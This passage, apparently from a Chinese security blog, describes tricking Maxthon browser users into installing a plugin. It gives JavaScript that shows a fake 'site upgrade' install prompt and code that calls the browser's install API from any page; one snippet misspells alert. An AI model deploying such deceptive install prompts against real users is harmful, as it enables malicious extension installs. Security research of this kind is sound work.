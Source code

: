 然后我们再在网站的页面里写：
```javascript
setTimeout(function(){
    if(typeof(plug_setup)!="function"){
        alret("因网站升级，网站结合了浏览器插件给用户更好的使用体验，请安装xx插件后刷新此页面");
    }
},1000)
```
因为页面加载、网络等问题照成的延迟问题，这里我们设置为1秒后运行检测代码。1秒后，将会运行
```javascript
if(typeof(plug_setup)!="function"){
    alret("因网站升级，网站结合了浏览器插件给用户更好的使用体验，请安装xx插件后刷新此页面");
}
```
这个时候如果全局没有plug_setup函数，将会运行下面的alert函数，告诉用户需要安装插件才可以访问。

##### 0x1.1.2 欺骗用户进行半自动安装指定插件

我觉的如果让用户安装插件的话，你跳转到页面，让用户把插件的信息、评论看完再安装，岂不是成功率大大降低了，而且也不符合网站的优化。《点石成金》一书上说过这样一句话“不要让用户思考”，这个虽然是网站设计里面的至理名言，但是也同样可以放在攻击里，当一个用户的思考变得更少时，那么他会有很大程度上会跟着攻击者设计好的路走。

于是，我分析了遨游浏览器安装插件页面里的JavaScript，发现遨游浏览器进行安装插件时调用API在任何页面都可以运行，会照成攻击者在页面写上一些JavaScript代码后，就会像遨游浏览器那样弹出一个框询问用户是否安装插件：

![](/images/browser-plugin-attack-vector/1.png)

我这里进行一些优化，代码如下：
```
var ERRORTEXT = '非傲游浏览器或版本过低。<a href="http://www.maxthon.cn" target="_blank">点此获取最新版本傲游浏览器</a>'
function getInstallMessage(that, messagePack, type) {
    if (external.mxCall) {
        var packMxAttr = $(that).closest(messagePack);
        if (type === 'skin') {
            // 浏览器框架版本号
            var frameVersion = external.mxCall('GetSkinFxVersion');
        }
        else if (type === 'app') {
            // 浏览器框架版本号
            var frameVersion = external.mxCall('GetAppFxVersion');
            // 下个版本上了就删掉--
            if (frameVersion === '1.0.0') {
                frameVersion = '1.0.1';
            }
            // --下个版本上了就删掉
        }
        // 插件包框架版本号
        var packMxVersion = packMxAttr.attr('file_def');
        // 插件包url
        var packUrl = packMxAttr.attr('file_url');
        // 插件id
        var packId = packMxAttr.attr('file_id');
        installPack(frameVersion, packMxVersion, packUrl, type, packId);
    }
    else {
        resultPop.show('浏览器不符', ERRORTEXT, '确定');

    }
}
function installPack(frameVersion, packMxVersion, packUrl, type, packId) {
    var isInstall = returnIsInstall(frameVersion, packMxVersion);
    if (isInstall !== -1) {
        if (type === 'skin') {
            external.mxCall('InstallSkin', packUrl);
        }
        else if (type === 'app') {
            external.mxCall('InstallApp', packUrl);
```